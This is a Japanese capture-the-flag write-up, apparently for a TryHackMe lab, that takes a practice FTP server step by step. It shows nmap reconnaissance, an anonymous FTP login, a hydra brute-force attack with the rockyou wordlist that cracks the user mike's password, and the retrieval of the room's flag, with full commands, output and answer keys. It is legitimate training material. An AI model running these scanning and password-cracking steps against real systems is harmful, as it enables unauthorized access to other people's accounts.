 ## 1.環　境
- ターゲットIP：10.10.119.98  
  
## 2.戦　略
### 2-1.サーバーの状態を列挙
- ユーザ名
- Anonymousユーザの存在
- 各バージョン情報
  
### 2-2.侵　入
- パスワードクラック
- バージョンの脆弱性を突く侵入
- 認証情報取得の上侵入
  
## 3.実　施
### 3-1.ターゲットマシン上で開いている  ポートの数はいくつですか?
- `nmap -A`を実行  
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -A 10.10.119.98                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-10 04:47 JST
Nmap scan report for 10.10.119.98
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.0.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: Host: Welcome

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.25 seconds

```
flag:`2`
  
### 3-2.ftp はどのポートで実行されていますか?
- `nmap -A`の結果から
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
```
flag:`21`
  
### 3-3.どのような種類の FTP が実行されていますか? 
- `nmap -A`の結果から
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
```
flag:`vsftpd`
  
### 3-4.FTP サーバーにAnonymousログインできるかどうかを確認。FTP ディレクトリ内のファイルの名前は何ですか?
- `Anonymous`ログイン試行
- `ls`でディレクトリ表示
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.119.98
Connected to 10.10.119.98.
220 Welcome to the administrator FTP service.
Name (10.10.119.98:kali): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```bash
ftp> ls
229 Entering Extended Passive Mode (|||50076|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
226 Directory send OK.
```
flag:`PUBLIC_NOTICE.txt`
  
### 3-5.ユーザー名として考えられるものは何でしょうか?
- `PUBLIC_NOTICE.txt`を`get`
- ローカルで`PUBLIC_NOTICE.txt`を表示
```bash
ftp> get PUBLIC_NOTICE.txt
local: PUBLIC_NOTICE.txt remote: PUBLIC_NOTICE.txt
229 Entering Extended Passive Mode (|||50866|)
150 Opening BINARY mode data connection for PUBLIC_NOTICE.txt (353 bytes).
100% |***********************************************************************************************************************************************************************************************|   353        3.65 MiB/s    00:00 ETA
226 Transfer complete.
353 bytes received in 00:00 (1.37 KiB/s)
ftp> exit
221 Goodbye.

```
```bash
┌──(kali㉿kali)-[~]
└─$ cat PUBLIC_NOTICE.txt
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,

Mike 
```
おそらく何かのメモと思料。  
`Mike`が名前っぽいのでsubmitしたらクリア  
  
flag:`Mike`
  
### 3-6.ユーザー「mike」のパスワードは何ですか?
- ユーザ名`Mike`を取得できているので、`hydra`でパスワードクラックできないか試してみる
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.119.98 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-10 05:00:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.119.98:21/
[21][ftp] host: 10.10.119.98   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-10 05:00:40

```
- `-l`：ユーザ名の指定
- `-P`：パスワードリストの指定
- `/usr/share/wordlist/rockyou.txt`：`hydra`や`gobuster`などで頻出のパスワードリスト。まずはこれってやつ
  
`[21][ftp] host: 10.10.119.98   login: mike   password: password`でパスワードクラックに成功  
ユーザ名が既知ならクラックしやすい（感覚）  
  
flag:`password`


### 3-7.FTPサーバーに接続し、ftp.txtを探索。中身を答えよ。
- ユーザ名`mike`、パスワード`password`でログイン
- `ls`でディレクトリを確認し、`get`で`ftp.txt`をローカルにダウンロード
- ローカルに戻り、`cat`で中身を出力
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.119.98
Connected to 10.10.119.98.
220 Welcome to the administrator FTP service.
Name (10.10.119.98:kali): mike
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
```bash
ftp> ls
229 Entering Extended Passive Mode (|||32343|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
-rw-r--r--    1 1002     1006            0 Jun 09 19:40 test.txt
226 Directory send OK.
```
```bash
ftp> get ftp.txt
local: ftp.txt remote: ftp.txt
229 Entering Extended Passive Mode (|||25104|)
150 Opening BINARY mode data connection for ftp.txt (26 bytes).
100% |***********************************************************************************************************************************************************************************************|    26      298.71 KiB/s    00:00 ETA
226 Transfer complete.
26 bytes received in 00:00 (0.09 KiB/s)
```
```bash
┌──(kali㉿kali)-[~]
└─$ cat ftp.txt          
THM{y0u_g0t_th3_ftp_fl4g}
```
  
flag:`THM{y0u_g0t_th3_ftp_fl4g}`  
  
